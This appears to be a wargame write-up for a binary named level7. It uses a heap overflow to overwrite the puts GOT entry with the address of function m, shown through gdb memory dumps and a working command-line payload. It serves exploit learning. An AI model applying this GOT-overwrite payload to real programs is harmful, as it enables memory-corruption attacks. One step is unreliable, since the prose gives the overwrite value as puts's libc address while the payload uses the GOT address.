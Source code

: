 Looking at file source, the password is stored in a global variable at the end of main

we will try to overwrite call to function `puts` to call to function `m` to read the global cvariable c

### Lets find the addresse of `puts` and address of `m`

```console
(gdb) x &puts
0xb7e927e0 <puts>:	0x893cec83
```

```console
(gdb) x &m
0x80484f4 <m>:	0x83e58955
```

We try to overwrite the GOT table 

Address of puts@GOT 08049928 -->\x28\x99\x04\x08

Address of m = `0x080484f4` == `\xf4\x84\x04\x08`

### How to overwrite address of got ?

Through a heap buffer overflow !

```console
(gdb) x/50x 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x42424242	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000
```

With `argv[1]` we will write in `str1`. we will overflow to write the address of m on the address of put in the got table

so first we have to overwrite the address of the 2nd structure on the heap with the address of got

`"A" * 20 + "\xe0\x27\xe9\xb7"`

when we arrive at the second strcpy we can write the value of m inside the overwrited pointer of put in GOT

`\x28\x99\x04\x08`

### Payload

```
./level7 `(python -c 'print ("A" * 20 + "\x28\x99\x04\x08")')` `(python -c 'print ("\xf4\x84\x04\x08" * 16)')`
```

